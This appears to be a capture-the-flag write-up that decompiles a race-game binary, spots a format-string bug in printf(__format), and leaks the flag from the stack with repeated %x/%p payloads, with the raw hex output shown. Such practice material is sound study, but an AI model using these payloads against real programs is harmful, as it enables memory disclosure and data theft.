                 if ("\n[*] Waiting for the race to finish..."[local_54] == '.') {
                sleep(0);
                }
                local_54 = local_54 + 1;
            }
            if (((iVar1 == 1) && (iVar2 < iVar3)) || ((iVar1 == 2 && (iVar3 < iVar2)))) {
                printf("%s\n\n[+] You won the race!! You get 100 coins!\n",&DAT_00011540);
                coins = coins + 100;
                puVar5 = &DAT_00011538;
                printf("[+] Current coins: [%d]%s\n",coins,&DAT_00011538);
                printf("\n[!] Do you have anything to say to the press after your big victory?\n> %s",
                    &DAT_000119de);
                __format = (char *)malloc(0x171);
                __stream = fopen("flag.txt","r");
                if (__stream == (FILE *)0x0) {
                printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                                /* WARNING: Subroutine does not return */
                exit(0x69);
                }
                fgets(local_3c,0x2c,__stream);
                read(0,__format,0x170);
                puts(
                    "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: \x1b[0m"
                    );
                printf(__format);
            }
            else if (((iVar1 == 1) && (iVar3 < iVar2)) || ((iVar1 == 2 && (iVar2 < iVar3)))) {
                printf("%s\n\n[-] You lost the race and all your coins!\n",&DAT_00011548);
                coins = 0;
                printf("[+] Current coins: [%d]%s\n",0,&DAT_00011538);
            }
            if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
                __stack_chk_fail_local();
            }
            return;
            }
        ```

        1. Looking through the code we see printf(__format); -> this means it has a format string vulnerability
7. EXPLOIT
   1. So lets get through the race, and when it asks us for our input lets try something that isn't a normal string
      1. > %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
      2. RESPONSE: 576d21c0 170 56576d85 1 36 26 1 2 5657796c 576d21c0 576d2340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368
      3. This is good, we are leaking data - however we don't know where it starts / ends 
   2. Create our own flag.txt that is all A's - this should come through as 0x41........ as many A's we put in
   3. Run this on our local copy
      1. INPUT: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
      2. RSEPONSE: 575d3200 170 56586d85 7 43 26 1 2 5658796c 575d3200 575d3380 41414141 41414141 41414141 41414141 56587d00 56589f8c ffad40d8 5658738d 56587540
         1. BINGO! So we can see that the 12th spot is where we KNOW it is the start
   4. So now lets just flood it with 11 %x's and start at the 12th position and then a bunch of %p and see what we get
      1. INPUT: %x %x %x %x %x %x %x %x %x %x %x %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
      2. OUTPUT: 569381c0 170 5664ed85 9 36 26 1 2 5664f96c 569381c0 56938340 0x7b425448 0x5f796877 0x5f643164 0x34735f31 0x745f3376 0x665f3368 0x5f67346c 0x745f6e30 0x355f3368 0x6b633474 0x7d213f 0xdbf5b200 0xf7fb43fc 0x56651f8c 0xff957b88 0x5664f441 0x1 0xff957c34 0xff957c3c 0xdbf5b200 0xff957ba0
8. CONVERT
   1. Now we have the hex characters we need to convert these values into ascii characters